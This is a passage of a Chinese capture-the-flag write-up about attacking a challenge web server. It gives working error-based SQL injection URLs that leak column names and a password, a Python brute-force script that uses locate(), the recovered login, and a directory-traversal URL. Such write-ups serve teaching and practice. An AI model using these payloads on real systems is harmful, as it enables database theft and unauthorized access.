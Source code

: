 因为information_schema 被过滤了，我们需要用另外一种方式来猜出字段名

```
http://188.40.18.70/PROFILE/54%5C/-%28select%09*%09from%09%28select%09*%09from%09users%09join%09users%09b%09using%28id_user,Us3rN4m3,Em4iL4dr3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29c%29--%09
复制代码
```

执行可得知密码字段为P4sWW0rD_0F_M3_WTF，好变态 - -！

报错出密码，这里有一个比较坑的地方就是因为报错信息长度有限制的关系，这里并不会显示全部的密码。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09P4sWW0rD_0F_M3_WTF%09from%09users%09limit%091)))--%09
复制代码
```

我们可以使用locate暴力猜出剩余的密码。 写了一个比较渣的脚本

```
#!python
import requests
import string 

charset = string.ascii_letters + string.digits

print charset

if __name__=='__main__':
    ipass = 'sd654egezjniufsdqc89q7d65azd123'
    print ipass.encode('hex')
    while True:
        for i in charset:
            t = ipass + i
            r = requests.get('http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09locate(0x'+t.encode('hex')+',P4sWW0rD_0F_M3_WTF)%09from%09users%09limit%091)))--%09')
            if r.text.find('XPATH syntax error: \'\1\'')!=-1:
                print 'Got it!'+i
                ipass = t
                print ipass
            else:
                print 'No!'+i 
复制代码
```

跑出完整的出密码

```
Dracula / ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz 
复制代码
```

登陆之后又一个比较明显的文件遍历,可以看到网站还有一个隐藏的目录。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../var/www/html/__WebSiteFuckingPrivateContentNotForPublic666 
复制代码
```
